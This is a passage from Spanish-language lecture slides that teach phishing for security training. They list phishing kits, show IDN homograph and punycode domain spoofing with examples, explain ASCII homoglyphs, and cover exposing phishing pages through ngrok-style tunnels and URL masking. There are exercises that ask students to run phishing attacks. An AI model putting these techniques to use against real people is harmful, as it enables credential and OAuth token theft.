\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl057_2.jpg}
\end{center}
\end{column}
\end{columns}
\vfill
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\small
  \begin{itemize}
  \item Otra alternativa es la herramienta \href{https://github.com/htr-tech/zphisher}{Zphisher}.
  \end{itemize}
\begin{center}
\includegraphics[width=0.554\textwidth,height=0.766\textheight,keepaspectratio]{img/sl058_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\small
  \begin{itemize}
  \item Otra alternativa es la herramienta \href{https://github.com/UndeadSec/SocialFish}{SocialFish}.
  \end{itemize}
\begin{center}
\includegraphics[width=0.593\textwidth,height=0.774\textheight,keepaspectratio]{img/sl059_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl060_1.jpg}
\end{center}
  \begin{itemize}
  \item Prueba otras herramientas alternativas a SET para hacer un ejercicio de phishing.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Ejemplo-3: Phishing}
\small
\lead{Se puede mejorar con punycode}
  \begin{itemize}
  \item Unicode es el estándar global de texto que incluye letras de todos los idiomas; Punycode es el sistema que traduce esas letras especiales a un formato de código ASCII básico apto para Internet.
  \item Un ataque de ingeniería social con Punycode es una técnica de phishing en la que se crean páginas web falsas con direcciones de Internet casi idénticas a las reales. Para lograrlo, los atacantes usan letras de otros alfabetos que se ven iguales o muy parecidas a las del abecedario latino.
  \item Cómo funciona:
    \begin{itemize}
    \item El sistema de nombres de Internet (DNS) solo entiende texto básico ASCII.
    \item Punycode (\href{https://www.rfc-editor.org/rfc/rfc3492}{RFC 3492}) traduce palabras con tildes, eñes o caracteres de otros alfabetos (como el cirílico o el griego) a un formato que el navegador pueda resolver.
    \item El atacante registra un dominio web cambiando una letra real por otra de otro alfabeto que tiene la misma forma.
    \item Por ejemplo, una ``a'' latina se cambia por una ``\cyr{а}'' cirílica. A la vista del usuario la dirección se ve bien, pero por dentro es otra.
    \item Para protegerse: revisar la barra de direcciones. Muchos navegadores modernos muestran el prefijo \cmd{xn--} cuando detectan caracteres mezclados de varios alfabetos.
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\small
\lead{IDN homograph attacks}
  \begin{itemize}
  \item Los ataques Unicode son un concepto general que engloba cualquier manipulación maliciosa de caracteres, mientras que un \emph{IDN homograph attack} es un tipo específico de ataque Unicode aplicado exclusivamente a nombres de dominio.
  \item \cmd{http://www[.]hai[.]com/auth/partners/login?app\_key=CONNECT\&} \\
        \cmd{redirect\_uri=https://oauth[.]hi[.]com/oauth2/success}
  \item Infiltrado con caracteres homógrafos IDN. Al acceder, el navegador lo traducirá a la versión punycode, una representación de IDN que utiliza los caracteres (A--Z, 0--9) soportados por DNS.
  \item Los atacantes pueden registrar un dominio falso con caracteres cirílicos y, tras engañar con éxito al sistema, provocar la fuga de tokens OAuth a un dominio que controlan.
  \end{itemize}
\fuente{Estándares aplicables: \href{https://www.rfc-editor.org/rfc/rfc5890}{RFC 5890 (IDNA2008)} y
        \href{https://www.unicode.org/reports/tr39/}{Unicode UTS \#39 --- Security Mechanisms}, que define los mecanismos de detección de confusables.}
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\small
\lead{Herramientas:}
  \begin{itemize}
  \item \href{https://www.kitploit.com/2018/01/evilurl-v20-unicode-domain-phishing.html}{EvilURL}: herramienta en Python diseñada específicamente para generar enlaces Unicode falsos para ataques de phishing de tipo IDN. Permite calcular qué caracteres homógrafos reemplazan mejor a las letras del dominio original.
  \item \href{https://github.com/urbanadventurer/urlcrazy}{Urlcrazy}: aunque se enfoca principalmente en typosquatting (errores de escritura), incluye módulos para identificar y generar variaciones de dominios usando caracteres visualmente similares.
  \item Herramienta web \href{http://www.irongeek.com/homoglyph-attack-generator.php}{homoglyph attack generator} (Irongeek).
  \item Generar dominios homógrafos con \href{https://www.hackplayers.com/2021/02/ditto-generar-dominios-homografos.html}{Ditto}.
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\vfill
\begin{columns}[c]
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl063_1.jpg}
\end{center}
\end{column}
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl063_2.jpg}
\end{center}
\end{column}
\end{columns}
\vfill
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\begin{center}
\includegraphics[width=0.645\textwidth,height=0.841\textheight,keepaspectratio]{img/sl065_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\footnotesize
  \begin{itemize}
  \item Ni siquiera hace falta Unicode: con caracteres ASCII corrientes se consiguen \term{homoglifos} muy eficaces,
        porque a tamaño pequeño el ojo lee la \emph{forma} de la palabra, no letra a letra.
  \item Ejemplo clásico: \cmd{example.com} frente a \cmd{exarnple.com} (\cmd{rn} en lugar de \cmd{m}).
        Otros pares habituales: \cmd{l}/\cmd{I}/\cmd{1}, \cmd{0}/\cmd{O}, \cmd{vv}/\cmd{w}, \cmd{cl}/\cmd{d}.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.63\textheight,keepaspectratio]{img/sl062_1.jpg}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\small
\lead{Ejemplos de homógrafas:}
  \begin{itemize}
  \item apple.com $\leftarrow$ dominio legítimo.
  \item \cyr{ар}ple.com $\leftarrow$ dominio falso (las dos primeras letras son cirílicas).
  \item A simple vista parecen iguales, pero en el segundo caso las letras ``\cyr{а}'' y ``\cyr{р}'' no son las latinas, sino las cirílicas (alfabeto ruso).
  \item Ejemplo de Punycode:
    \begin{itemize}
    \item Dominio: \cmd{www.españa.com}
    \item Punycode: \cmd{www.xn--espaa-rta.com}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl066_1.jpg}
\end{center}
  \begin{itemize}
  \item Mejora los escenarios de phishing que estamos haciendo con técnicas homógrafas o punycode.
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\small
\lead{Herramientas para el envío de correos de phishing:}
  \begin{itemize}
  \item \href{https://www.youtube.com/watch?v=3G_FX946NxQ&feature=emb_logo}{Taller} de phishing en un Red Team
    \begin{itemize}
    \item Herramienta \href{https://getgophish.com/}{gophish}
    \end{itemize}
  \item \href{https://emkei.cz/}{emkei}
  \item \href{https://sh3llcon.org/el-phishing-del-siglo-xxi/}{Evilginx}
  \item \href{https://thehackerway.com/2021/02/10/verificacion-de-dominios-expirados-para-phishing-con-domainhunter/}{DomainHunter}
  \item \href{https://www.flu-project.com/2017/09/mercure-concienciando-tu-empresa-con.html}{Mercure} (\href{https://www.elladodelmal.com/2017/08/open-source-mercure-para-hacer-campanas.html}{ejemplo})
  \item \href{https://github.com/Section9Labs/Cartero}{Cartero}
  \item \href{https://github.com/Open-Security-Group-OSG/HiddenEyeReborn}{HiddenEyeReborn}
  \item \href{https://www.elladodelmal.com/2019/10/shellphish-socialbox-el-phishing-y-la.html}{Shellphish \& SocialBox}
  \item Ingeniería social en wifi con \href{https://github.com/wifiphisher/wifiphisher}{wifiphisher}
  \item Phishing en \href{https://www.elladodelmal.com/2021/01/o365-toolkit-el-kit-de-phishing-oauth.html}{Office 365}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Ejemplo-4: Phishing con ngrok}
\small
\lead{ngrok:}
  \begin{itemize}
  \item Es una herramienta que crea un túnel seguro desde Internet hacia un servidor o puerto local de tu equipo.
  \item Permite que cualquier persona o servicio externo acceda a una aplicación que corre en tu \cmd{localhost} sin necesidad de configurar un dominio ni abrir puertos en el router.
  \item URL pública temporal: genera enlaces por HTTP y HTTPS de forma instantánea.
  \item Sin configuración de red: evita tocar la configuración del enrutador o lidiar con IP dinámicas.
  \item Ejemplos de uso: \href{https://www.huntress.com/blog/abusing-ngrok-hackers-at-the-end-of-the-tunnel}{Ref1}, \href{https://esgeeks.com/hacking-redes-sociales-phishing-phisherman-ngrok/}{Ref2}, \href{https://www.elladodelmal.com/2019/10/shellphish-socialbox-el-phishing-y-la.html}{Ref3}.
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-4: Phishing con ngrok}
\small
\lead{Puesta en marcha del túnel}
Se registra el \term{authtoken} de la cuenta y se levanta el túnel contra el puerto local
donde escucha la página de phishing.
\begin{center}
\includegraphics[width=\textwidth,height=0.62\textheight,keepaspectratio]{img/sl068_2.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-4: Phishing con ngrok}
\small
\lead{Sesión activa: URL pública y tráfico en directo}
\begin{center}
\includegraphics[width=\textwidth,height=0.76\textheight,keepaspectratio]{img/sl068_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl069_1.jpg}
\end{center}
  \begin{itemize}
  \item Realiza un ataque de phishing con \href{https://ngrok.com/}{ngrok} para exponer una IP privada a través de Internet.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Ejemplo-4: Phishing con ngrok}
\small
\lead{Alternativas a ngrok:}
  \begin{itemize}
  \item \href{https://github.com/ekzhang/bore}{bore}
  \item \href{https://localxpose.io}{LocalXpose}: ofrece más opciones de personalización y seguridad.
  \item \href{https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/}{Cloudflare Tunnel} (\cmd{cloudflared}): expone un servicio local a una URL pública a través de la red \term{edge} de Cloudflare, sin abrir puertos.
    \begin{itemize}
    \item Ventajas: subdominio propio, multiplataforma (Windows/macOS/Linux), gratuito y ampliamente utilizado también con fines legítimos, lo que dificulta su detección por reputación.
    \end{itemize}
  \item \href{https://github.com/localtunnel/localtunnel}{localtunnel}: alternativa mínima en Node.js, útil para pruebas rápidas de laboratorio.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/sl071_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-4: Phishing con ngrok}
\scriptsize
\lead{\scriptsize Enmascaramiento de URL con \href{https://github.com/jaykali/maskphish}{MaskPhish}}
  \begin{itemize}
  \item Toma el enlace largo y extraño que generan ngrok o Zphisher y lo disfraza tras un dominio de aspecto legítimo (Google, Facebook\dots), aprovechando la sintaxis \cmd{usuario@servidor} de las URL.
  \end{itemize}
